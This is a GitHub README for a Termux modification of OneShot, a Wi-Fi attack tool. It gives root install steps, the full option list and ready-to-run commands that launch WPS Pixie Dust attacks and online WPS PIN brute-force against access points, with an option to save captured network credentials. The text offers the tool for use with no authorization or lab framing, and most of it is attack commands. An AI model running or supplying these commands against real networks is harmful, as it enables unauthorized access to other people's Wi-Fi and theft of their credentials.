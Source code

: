 # OneShot for Termux with vibro/sound notification

## [For sound notification line #1018 can be edited by yourself "sonar.mp3"](https://github.com/jevgenyonegin/OneShot_Termux_mod/blob/bc7bb17d2f966c1bfaa393f65d5b738e605eea35/oneshot.py#L1018)
Termux: nano -l +1018 oneshot.py > make changes > Ctrl+o > Ctrl+x

## This method not working on MIUI roms (or maybe some others), so there is another way to at least play sound
```
pkg install play-audio
```
Edit line [#1018](https://github.com/jevgenyonegin/OneShot_Termux_mod/blob/bc7bb17d2f966c1bfaa393f65d5b738e605eea35/oneshot.py#L1018) replacing "termux-media-player play" with "play-audio"

As example:
```
proc = subprocess.Popen('play-audio sonar.mp3', shell=True)
```
# Overview
**OneShot** performs [Pixie Dust attack](https://forums.kali.org/showthread.php?24286-WPS-Pixie-Dust-Attack-Offline-WPS-Attack) without having to switch to monitor mode.
# Features
 - [Pixie Dust attack](https://forums.kali.org/showthread.php?24286-WPS-Pixie-Dust-Attack-Offline-WPS-Attack);
 - integrated [3WiFi offline WPS PIN generator](https://3wifi.stascorp.com/wpspin);
 - [online WPS bruteforce](https://sviehb.files.wordpress.com/2011/12/viehboeck_wps.pdf);
 - Wi-Fi scanner with highlighting based on iw;
# Requirements
 - Python 3.6 and above;
 - [Wpa supplicant](https://www.w1.fi/wpa_supplicant/);
 - [Pixiewps](https://github.com/wiire-a/pixiewps);
 - [iw](https://wireless.wiki.kernel.org/en/users/documentation/iw).
# Setup

## [Termux](https://f-droid.org/en/packages/com.termux/)
Please note that root access is required.  

**Installing requirements**
 ```
 pkg install -y root-repo
 pkg install -y git tsu python wpa-supplicant pixiewps iw
 ```
**Getting OneShot**
 ```
 git clone --depth 1 https://github.com/jevgenyonegin/OneShot_Termux_mod OneShot
 ```
#### Running
 ```
 sudo python OneShot/oneshot.py -i wlan0 --iface-down -K
 ```

# Usage
```
 oneshot.py <arguments>
 Required arguments:
     -i, --interface=<wlan0>  : Name of the interface to use

 Optional arguments:
     -b, --bssid=<mac>        : BSSID of the target AP
     -p, --pin=<wps pin>      : Use the specified pin (arbitrary string or 4/8 digit pin)
     -K, --pixie-dust         : Run Pixie Dust attack
     -B, --bruteforce         : Run online bruteforce attack
     --pbc                    : Run WPS push button connection

 Advanced arguments:
     -d, --delay=<n>          : Set the delay between pin attempts [0]
     -w, --write              : Write AP credentials to the file on success
     -F, --pixie-force        : Run Pixiewps with --force option (bruteforce full range)
     -X, --show-pixie-cmd     : Alway print Pixiewps command
     --vuln-list=<filename>   : Use custom file with vulnerable devices list ['vulnwsc.txt']
     --iface-down             : Down network interface when the work is finished
     -l, --loop               : Run in a loop
     --mtk-wifi               : Activate MediaTek Wi-Fi interface driver on startup and deactivate it on exit
                                (for internal Wi-Fi adapters implemented in MediaTek SoCs). Turn off Wi-Fi in the system settings before using this.
     -v, --verbose            : Verbose output
 ```

## Usage examples
Start Pixie Dust attack on a specified BSSID:
 ```
 sudo python3 oneshot.py -i wlan0 -b 00:90:4C:C1:AC:21 -K
 ```
Show avaliable networks and start Pixie Dust attack on a specified network:
 ```
 sudo python3 oneshot.py -i wlan0 -K
 ```
Launch online WPS bruteforce with the specified first half of the PIN:
 ```
 sudo python3 oneshot.py -i wlan0 -b 00:90:4C:C1:AC:21 -B -p 1234
 ```
## Troubleshooting
#### "RTNETLINK answers: Operation not possible due to RF-kill"
 Just run:
```sudo rfkill unblock wifi```
#### "Device or resource busy (-16)"
 Try disabling Wi-Fi in the system settings and kill the Network manager. Alternatively, you can try running OneShot with ```--iface-down``` argument.
#### The wlan0 interface disappears when Wi-Fi is disabled on Android devices with MediaTek SoC
 Try run the following:
```
sudo chmod 644 /dev/wmtWifi
sudo sh -c 'echo 1 > /dev/wmtWifi'
```
# Acknowledgements
## Special Thanks
* `rofl0r` for initial implementation;
* `drygdryg` for developing OneShot;
* `Monohrom` for testing, help in catching bugs, some ideas;
* `Wiire` developing Pixiewps;
* `eda-abec` for vulwsc updates and support;
* `vilvius31` for project support;

